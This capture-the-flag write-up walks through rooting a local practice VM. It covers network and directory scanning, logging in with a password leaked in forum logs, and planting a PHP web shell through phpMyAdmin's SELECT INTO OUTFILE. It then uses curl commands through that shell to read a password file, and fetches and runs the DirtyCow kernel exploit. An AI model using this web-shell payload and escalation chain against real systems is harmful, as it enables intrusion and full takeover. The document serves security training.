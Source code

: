 # writeup1
After running the VM, it wants us to login, but we don't have login and password so we are going to use the **netdiscover** tool in our computer, which will return us all of the IP addresses that we currently have in our network, except the one for our machine. Writing the following command․
```
netdiscover -r 192.168.1.0/24 #-r flag is the range of ips, and how did we know about /24, when we do ip a we’ll see our ip address, which ends with /24
```
And as a result we see the following:
```
Currently scanning: Finished!   |   Screen View: Unique Hosts

 11 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 498
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     e8:01:8d:27:a7:00      5     210  Fiberhome Telecommunication
 192.168.1.3     c8:3a:35:36:91:18      1      60  Tenda Technology Co., Ltd.
 192.168.1.2     d8:af:81:0f:42:36      1      60  AO
 192.168.1.12    08:00:27:45:1c:86      2      84  PCS Systemtechnik GmbH
 192.168.1.6     32:4c:46:b9:8e:42      2      84  Unknown vendor
```

The first one is my router,
the second one is my other route,
the third one is my TV,
and the fourth one I don't know yet. Let's go to the browser and investigate it.
<img src="img/Pasted image 20240704110727.png">
Well, I think we found the IP address of our machine, but it's so empty att first glance. It is worth to check and parse the directories, to see what is there:

For that we can use the **dirb** tool.
```
┌──(neo㉿matrix)-[~]
└─$ dirb http://192.168.1.12/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jul  4 11:13:15 2024
URL_BASE: http://192.168.1.12/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.12/ ----
+ http://192.168.1.12/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.12/fonts/
+ http://192.168.1.12/forum (CODE:403|SIZE:285)
+ http://192.168.1.12/index.html (CODE:200|SIZE:1025)
+ http://192.168.1.12/server-status (CODE:403|SIZE:293)

---- Entering directory: http://192.168.1.12/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu Jul  4 11:13:19 2024
DOWNLOADED: 4612 - FOUND: 4
```
We see that there is a /forum whose status code is 403 (fprnoddem) because we only scanned with https, let's try with https. and while this happend, we can already enter the forum with https։
<img src="img/Pasted image 20240704112010.png">
While we investigating all this, we can get **nmap** working for our ip.
**nmap** is a tool, that scans open ports of the given ip, and gives information about them. We should have done this in the beginning, but I'm an old man and I forgot.
```
sudo nmap 192.168.1.12 -sS -sV -sC -v &>out
```
While scanning, On the page 'Problem login; we see interesting logs, that lmezard use wants to login and it doesn't work, and if we search that username using the functions of the browser, we'll see this:
<img src="img/Pasted image 20240704112903.png">
We can see from these logs that this user naively wrote his password as a username and failed.

there is a place on the site to login, let's try it
<img src="img/Pasted image 20240704113729.png">
And great, we logged in and there was also webmail in the output of **dirb**
<img src="img/Pasted image 20240704114314.png">
lmezard isn't logged in, but if we look at our user's email from our forum, we'll see this
<img src="img/Pasted image 20240704120557.png">
We successfully login with this email, and we can see an interesting message here
<img src="img/Pasted image 20240704120634.png">
and whenever we go to phpadmin
<img src="img/Pasted image 20240704120741.png">
we'll be able to log in with the password given by this email

and here we have the possibility to write sql code, and after suffering for 40 years and asking people in slack, I realized that we have permission in the templates_c folder, so we will run the following:
```
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/gago.php'
```
<img src="img/Pasted image 20240704122427.png">
And here we got this

Now let's see what's here
```
┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20%20/home'
1	LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home'
1	.
..
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME'
1	.
..
password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME/password'
1	/home/LOOKATME/password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=cat%20/home/LOOKATME/password'
1	lmezard:G!@M6f4Eatau{sF"

```
unfortunately, we cannot login with ssh with this login and password, but we can do it with VM
<img src="img/Pasted image 20240712001204.png">
Let's do uname -a to see what kernel it s, because this iso file is a bit younger that my grandma
<img src="img/Pasted image 20240712001336.png">
and after a little googgling **linux 3.2 cve**  I cam across this link https://www.cybersecurity-help.cz/exploits/1039/?ref=bulletin and found this exploit from github https://github.com/firefart/dirtycowv. We don't have git to clone it, bu we have 2 nostril.

We go to tmp and download the file using curl
```
cd /tmp
curl https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c > dirty.c
```
The way to use the exploit is written in  a file

// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at

Let's compile and run it
<img src="img/Pasted image 20240712004026.png">
I think it worked! Let's try to login. As the script changes a username, I'll edit the script and put with root in my files,  so that you don't say that you aren't root, regardless of the fact that the ID is 0:
<img src="img/Pasted image 20240712004305.png">
And you can congratulate me, we have root.

<img src="img/Pasted image 20240712011419.png">
And here is the changed code, which is in the /scripts folder
